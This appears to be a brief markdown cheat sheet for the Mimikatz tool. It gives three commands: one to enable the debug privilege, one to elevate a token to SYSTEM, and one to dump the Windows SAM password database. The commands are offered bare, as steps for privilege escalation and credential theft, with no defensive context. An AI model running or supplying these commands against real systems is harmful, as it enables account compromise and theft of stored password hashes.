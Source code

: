 # Mimikatz

## Enable SeDebugPrivilge

```text
 privilege::debug
```

## Elevate from high integrity level to SYSTEM level

```text
token::elevate
```

## Dumping SAM Database

```text
lsadump::sam
```

